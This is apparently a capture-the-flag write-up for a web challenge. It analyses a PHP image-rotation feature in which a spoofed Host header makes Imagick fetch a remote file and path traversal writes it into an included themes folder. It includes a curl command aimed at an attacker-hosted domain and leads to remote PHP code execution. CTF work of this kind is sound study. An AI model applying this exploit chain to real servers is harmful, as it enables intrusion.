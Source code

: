 # Web 02

This was an interesting challenge. We are only provided with a link to a website and no source code.

```
Challenge is available at http://52.78.36.66:81/
```

The webapp is essentially a post service with image uploads. You can upload a "featured image" and create a post referencing that image.

![img1](./img1.png)

![img2](./img2.png)

Visiting the post.php directly revealed the source code 

```php
<?php
require_once('header.php');
require_once('db.php');

$post = [];

function rotate_feature_img($post_id, $degrees) {
    $post = get_post($post_id);
    $src_file = $post['feature_img'];
    $ext = strtolower(pathinfo($src_file, PATHINFO_EXTENSION));
    
    $src_file = "uploads/" . $src_file;
    if ( !file_exists( $src_file ) ) {
        $base_url = "http://" . $_SERVER['HTTP_HOST'];
        $src = $base_url. "/" . $src_file;
    } else {
        $src = $src_file;
    }
    try {
        $img = new Imagick($src);
        $img->rotateImage('white', $degrees);
    } catch (Exception $e) {
        die('fail to rotate image');
    }
    @mkdir(dirname($src_file));
    @$img->writeImage($src_file);
}

function get_title() {
    global $post;
    echo $post['title'];
}

function get_body() {
    global $post;
    echo $post['body'];
}

function get_img_src() {
    global $post;
    $base_url = "http://" . $_SERVER['HTTP_HOST'];
    echo $base_url."/uploads/".$post['feature_img'];
}

function check_theme($theme) {
    if(!in_array($theme, scandir('./themes'))) {
        die("Invalid theme!");
    }
}

if (isset($_GET['post_id'])) {
    require_once('post_header.php');
    
    $post_id = $_GET['post_id'];
    global $post;
    $post = get_post($post_id);
    if (isset($_GET['theme'])) {
        $theme = $_GET['theme'];
    } else {
        $theme = 'theme1.php';
    }
    check_theme($theme);
    include('themes/'.$theme);
    echo("<button class='btn btn-primary' id='edit-btn'>Edit image</button>
<form action='post.php' method='post' width='50%'>
    <div class='form-group' id='edit-div'>
    <label for='exampleInputEmail1'>Degree</label>
    <input type='text' class='form-control' id='exampleInputEmail1' placeholder='90' name='degree'>
    <input type='hidden' class='form-control' id='exampleInputEmail2' value='$post_id' name='post_id'>
    <button type='submit' class='btn btn-primary'>Rotate</button>
  </div>");
    require_once('post_footer.php');
}
else if (isset($_POST['post_id']) && isset($_POST['degree'])) {
    $post_id = $_POST['post_id'];
    rotate_feature_img($post_id, (int) $_POST['degree']);
    header("Location: /post.php?post_id=$post_id&theme=theme1.php");
} else {
    show_source('post.php');
}

require_once('footer.php');
?>
```

The interesting functionality here is we can rotate an image. The bug lies in that function:

```php
function rotate_feature_img($post_id, $degrees) {
    $post = get_post($post_id);
    $src_file = $post['feature_img'];
    $ext = strtolower(pathinfo($src_file, PATHINFO_EXTENSION));
    
    $src_file = "uploads/" . $src_file;
    if ( !file_exists( $src_file ) ) {
        $base_url = "http://" . $_SERVER['HTTP_HOST'];
        $src = $base_url. "/" . $src_file;
    } else {
        $src = $src_file;
    }
    try {
        $img = new Imagick($src);
        $img->rotateImage('white', $degrees);
    } catch (Exception $e) {
        die('fail to rotate image');
    }
    @mkdir(dirname($src_file));
    @$img->writeImage($src_file);
}
```

Basically it checks if the image we are rotating exists on the server, otherwise it gets it from a remote server based on the HTTP_HOST, which we can control.

It then writes it to the the "$src_file" location and since we control that based on the `feature_img`, we can traverse it and make it write a file in the themes folder.

The file written in the themes folder can be later loaded:

```php
    if (isset($_GET['theme'])) {
        $theme = $_GET['theme'];
    } else {
        $theme = 'theme1.php';
    }
    check_theme($theme);
    include('themes/'.$theme);
``` 

The image is rotated before getting saved, so I just used a [svg](./sol) with a text tag to preserve the php code after rotation.

The exploit was basically:

- Create an post with the "Featured Image" set to `../themes/jazzyhack`
- Rotate the image with a custom Host header and have the payload hosted at `/themes/jazzyhack` on the Host header domain you used.
```
curl 'http://52.78.36.66:81/post.php' -H 'Host: domain.com' --data 'degree=90&post_id=ZkXXHLCW'
``` 
(with the payload hosted at domain.com/themes/jazzyhack)


Now just load the theme jazzyhack and you have arbitrary php code execution.

![img3](./img3.png)

- Jazzy
